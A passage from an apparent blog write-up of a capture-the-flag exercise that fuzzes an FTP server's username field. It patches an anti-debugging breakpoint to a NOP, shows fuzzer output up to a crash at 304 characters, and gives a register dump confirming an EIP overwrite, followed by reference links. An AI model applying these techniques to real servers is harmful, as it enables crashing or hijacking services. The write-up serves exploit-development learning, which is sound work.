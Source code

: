 As you can see this script is really simple, and just increments the size of the payload to deploy until things break. I went ahead and attached Immunity to the server and kicked off my script. To my annoyance the developers of application has put a breakpoint in the code when a user connects. Obviously the goal here was to stop us from fuzzing under a debugger:

![Debug breakpoint while fuzzing](/uploads/2014/03/01-int3.png)

To get around this problem I just modified the assembly inline using Immunity so that the breakpoint (`CC`) instruction was instead a NOP (`90`) instruction like so:

![Changed to NOP](/uploads/2014/03/02-nop.png)

With this out of the way the script ran nicely. Until...

``` txt
$ ./fuzz.py
[*] Fuzzing 10.1.10.34:21 ...
[*] Username 16 chars, Command 23 chars...
[*] Username 32 chars, Command 39 chars...
[*] Username 48 chars, Command 55 chars...
[*] Username 64 chars, Command 71 chars...
[*] Username 80 chars, Command 87 chars...
[*] Username 96 chars, Command 103 chars...
[*] Username 112 chars, Command 119 chars...
[*] Username 128 chars, Command 135 chars...
[*] Username 144 chars, Command 151 chars...
[*] Username 160 chars, Command 167 chars...
[*] Username 176 chars, Command 183 chars...
[*] Username 192 chars, Command 199 chars...
[*] Username 208 chars, Command 215 chars...
[*] Username 224 chars, Command 231 chars...
[*] Username 240 chars, Command 247 chars...
[*] Username 256 chars, Command 263 chars...
[*] Username 272 chars, Command 279 chars...
[*] Username 288 chars, Command 295 chars...
[*] Username 304 chars, Command 311 chars...
```

When the username hit `304` characters, things turned bad for the server. Immunity showed the following information about the registers:

``` txt
EAX 00000000
ECX 0024A9C0
EDX 0000002F
EBX 41414141
ESP 00B5FFC0
EBP 41414141
ESI 41414141
EDI 41414141
EIP 41414141
```

At this point it looks like we have a "vanilla" `EIP` overwrite. Taking a look at the stack window we can see something interesting:


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux